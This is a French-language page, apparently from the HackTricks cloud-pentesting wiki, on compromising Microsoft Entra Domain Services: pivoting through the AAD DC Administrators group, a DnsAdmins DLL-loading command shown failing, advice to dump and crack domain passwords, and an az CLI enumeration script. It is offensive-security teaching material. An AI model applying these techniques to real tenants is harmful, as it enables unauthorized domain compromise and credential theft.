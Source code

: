 # Az - Microsoft Entra Domain Services

{{#include ../../../../banners/hacktricks-training.md}}

## Domain Services

Microsoft Entra Domain Services permet de déployer un Active Directory dans Azure sans avoir besoin de gérer les contrôleurs de domaine (en fait, vous n'y avez même pas accès).

Son objectif principal est de vous permettre d'exécuter des applications héritées dans le cloud qui ne peuvent pas utiliser des méthodes d'authentification modernes, ou lorsque vous ne souhaitez pas que les recherches dans l'annuaire retournent toujours à un environnement AD DS sur site.

Notez que pour synchroniser les utilisateurs générés dans Entra ID (et non synchronisés à partir d'autres annuaires actifs) avec le service de domaine AD, vous devez **changer le mot de passe de l'utilisateur** pour un nouveau afin qu'il puisse être synchronisé avec le nouvel AD. En fait, l'utilisateur n'est pas synchronisé de Microsoft Entra ID vers les Domain Services tant que le mot de passe n'est pas changé.

> [!WARNING]
> Même si vous créez un nouveau domaine Active Directory, vous ne pourrez pas le gérer complètement (sauf en exploitant certaines mauvaises configurations), ce qui signifie qu'en défaut, par exemple, vous ne pouvez pas créer d'utilisateurs directement dans l'AD. Vous les créez en **synchronisant des utilisateurs depuis Entra ID.** Vous pouvez indiquer de synchroniser tous les utilisateurs (même ceux synchronisés à partir d'autres AD sur site), uniquement les utilisateurs cloud (utilisateurs créés dans Entra ID), ou même **les filtrer davantage**.

> [!NOTE]
> En général, en raison du manque de flexibilité dans la configuration du nouveau domaine et du fait que les AD sont généralement déjà sur site, ce n'est pas l'intégration principale entre Entra ID et AD, mais il est tout de même intéressant de savoir comment le compromettre.

### Pivoting

Les membres du groupe **`AAD DC Administrators`** se voient accorder des permissions d'administrateur local sur les VM qui sont jointes au domaine géré (mais pas dans les contrôleurs de domaine) car ils sont ajoutés au groupe des administrateurs locaux. Les membres de ce groupe peuvent également utiliser **Remote Desktop pour se connecter à distance aux VM jointes au domaine**, et sont également membres des groupes :

- **`Denied RODC Password Replication Group`** : Il s'agit d'un groupe qui spécifie les utilisateurs et groupes dont les mots de passe ne peuvent pas être mis en cache sur les RODC (Read-Only Domain Controllers).
- **`Group Policy Creators Owners`** : Ce groupe permet aux membres de créer des stratégies de groupe dans le domaine. Cependant, ses membres ne peuvent pas appliquer des stratégies de groupe aux utilisateurs ou groupes ni modifier les GPO existantes, donc ce n'est pas très intéressant dans cet environnement.
- **`DnsAdmins`** : Ce groupe permet de gérer les paramètres DNS et a été abusé par le passé pour [escalader des privilèges et compromettre le domaine](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html?highlight=dnsadmin#dnsadmins), cependant après avoir testé l'attaque dans cet environnement, il a été vérifié que la vulnérabilité est corrigée :
```text
dnscmd TDW52Y80ZE26M1K.azure.training.hacktricks.xyz /config /serverlevelplugindll \\10.1.0.6\c$\Windows\Temp\adduser.dll

DNS Server failed to reset registry property.
Status = 5 (0x00000005)
Command failed:  ERROR_ACCESS_DENIED     5    0x5
```
Notez que pour accorder ces autorisations, à l'intérieur de l'AD, le groupe **`AAD DC Administrators`** est devenu membre des groupes précédents, et également le GPO **`AADDC Computers GPO`** ajoute en tant qu'administrateurs locaux tous les membres du groupe de domaine **`AAD DC Administrators`**.

Le pivotement d'Entra ID vers un AD créé avec Domain Services est simple, il suffit d'ajouter un utilisateur dans le groupe **`AAD DC Administrators`**, d'accéder via RDP à n'importe quelle/toutes les machines du domaine et vous pourrez voler des données et également **compromettre le domaine.**

Cependant, le pivotement du domaine vers Entra ID n'est pas aussi facile car rien du domaine n'est synchronisé dans Entra ID. Cependant, vérifiez toujours les métadonnées de toutes les VM jointes car leurs identités gérées assignées pourraient avoir des autorisations intéressantes. De plus, **dump toutes les mots de passe des utilisateurs du domaine** et essayez de les craquer pour ensuite vous connecter à Entra ID / Azure.

> [!NOTE]
> Notez qu'auparavant, d'autres vulnérabilités dans cet AD géré ont été trouvées, permettant de compromettre les DC, [comme celle-ci](https://www.secureworks.com/research/azure-active-directory-domain-services-escalation-of-privilege?utm_source=chatgpt.com). Un attaquant compromettant le DC pourrait très facilement maintenir la persistance sans que les administrateurs Azure ne s'en aperçoivent ou même ne puissent l'enlever.

### Énumération
```bash
# Get configured domain services domains (you can add more subs to check in more subscriptions)
az rest --method post \
--url "https://management.azure.com/providers/Microsoft.ResourceGraph/resources?api-version=2021-03-01" \
--body '{
"subscriptions": [
"0ce1297c-9153-425d-3229-f51093614377"
],
"query": "resources | where type == \"microsoft.aad/domainservices\"",
"options": {
"$top": 16,
"$skip": 0,
"$skipToken": ""
}
}'

# Get domain configuration
az rest --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/<domain-name>?api-version=2022-12-01&healthdata=true"
## e.g.
az rest --url "https://management.azure.com/subscriptions/0ce1297c-9153-425d-3229-f51093614377/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/azure.training.hacktricks.xyz?api-version=2022-12-01&healthdata=true"

# Based on the VNet assigned to the domain services, you can enumerate the VMs in the domain

subscription_id="0ce1297c-9153-425d-3229-f51093614377"
vnet_name="aadds-vnet"

# Retrieve all VMs in the subscription
vm_list=$(az vm list --subscription "$subscription_id" --query "[].{Name:name, ResourceGroup:resourceGroup}" --output tsv)

# Iterate through each VM to check their VNet connection
echo "VMs connected to VNet '$vnet_name':"
while IFS=$'\t' read -r vm_name resource_group; do
nic_ids=$(az vm show --subscription "$subscription_id" --name "$vm_name" --resource-group "$resource_group" --query "networkProfile.networkInterfaces[].id" --output tsv)

for nic_id in $nic_ids; do
subnet_id=$(az network nic show --ids "$nic_id" --query "ipConfigurations[0].subnet.id" --output tsv)

if [[ $subnet_id == *"virtualNetworks/$vnet_name"* ]]; then
echo "VM Name: $vm_name, Resource Group: $resource_group"
fi
done
done <<< "$vm_list"
```
{{#include ../../../../banners/hacktricks-training.md}}
